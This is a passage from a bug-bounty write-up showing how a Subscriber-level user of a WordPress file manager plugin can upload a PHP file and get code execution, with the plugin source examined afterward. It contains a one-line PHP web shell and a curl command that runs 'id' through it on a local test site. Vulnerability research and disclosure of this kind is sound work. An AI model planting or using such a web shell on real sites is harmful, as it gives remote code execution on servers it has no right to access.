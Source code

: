 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Bug-Bounty/Wordfence/how-i-found-my-first-vulnerabilities-in-6-different-wordpress-plugins-part-2/images/Pasted%20image%2020250108105853.png)

> Note: The reason why we setup file manager access to role "Subscriber" is because we don't want to test the command in role "Administrator" or above. It's also because **this kind of plugin, the developers WANTS administrators to upload arbitrary files, including PHP files.** If a non-administrator user can upload arbitrary files, that's a real vulnerability.

Then, we can login as a user with role "Subscriber" and try to upload a PHP file via the previously mentioned shortcode:

```shell
┌[siunam♥Mercury]-(~/Downloads)-[2025.01.08|10:59:37(HKT)]
└> echo -n '<?php system($_GET["cmd"]); ?>' > test.php
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Bug-Bounty/Wordfence/how-i-found-my-first-vulnerabilities-in-6-different-wordpress-plugins-part-2/images/Pasted%20image%2020250108110119.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Bug-Bounty/Wordfence/how-i-found-my-first-vulnerabilities-in-6-different-wordpress-plugins-part-2/images/Pasted%20image%2020250108110142.png)

Ah, of course it wouldn't be that easy.

Luckily, this plugin allows administrators to allow a certain [MIME types](https://developer.mozilla.org/en-US/docs/Web/HTTP/MIME_types) to be uploaded:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Bug-Bounty/Wordfence/how-i-found-my-first-vulnerabilities-in-6-different-wordpress-plugins-part-2/images/Pasted%20image%2020250108111533.png)

Hmm... What if we allow MIME types "text"? Let's try to upload the PHP file again:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Bug-Bounty/Wordfence/how-i-found-my-first-vulnerabilities-in-6-different-wordpress-plugins-part-2/images/Pasted%20image%2020250108111959.png)

Burp Suite HTTP history:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Bug-Bounty/Wordfence/how-i-found-my-first-vulnerabilities-in-6-different-wordpress-plugins-part-2/images/Pasted%20image%2020250108112532.png)

```shell
└> curl --get http://localhost/wp-content/uploads/file-manager/test.php --data 'cmd=id' 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Wait, it works? Even though we allowed MIME type "text", **low and mid-level privilege users should NOT be able to upload arbitrary PHP files**, as it can lead to RCE.

Why we're allowed to upload PHP files?... Let's dive into the source code again!

If we take a closer look to method `getFinder` from class `FileManagerProvider` (It's called by the `connector` method), it'll call method `getOptions` from class `Options` to get elFinder options:

```php
class FileManagerProvider
{
    [...]
    public function getFinder()
    {
        $finder = new elFinder($this->_finderOptions->getOptions());

        return new FinderConnector($finder);
    }
}
```
